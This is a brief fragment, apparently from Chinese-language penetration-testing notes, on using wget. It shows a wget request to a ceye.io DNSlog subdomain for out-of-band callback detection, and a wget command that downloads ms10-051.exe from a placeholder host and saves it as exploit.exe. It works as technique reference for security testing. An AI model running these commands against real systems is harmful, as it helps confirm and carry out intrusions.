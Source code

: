 一般需要先安装wget。
wget请求：默认get，会有dnslog
```
wget wget.2qytvx.ceye.io
```

wget下载文件：
```
wget http://xx/ms10-051.exe -O exploit.exe
```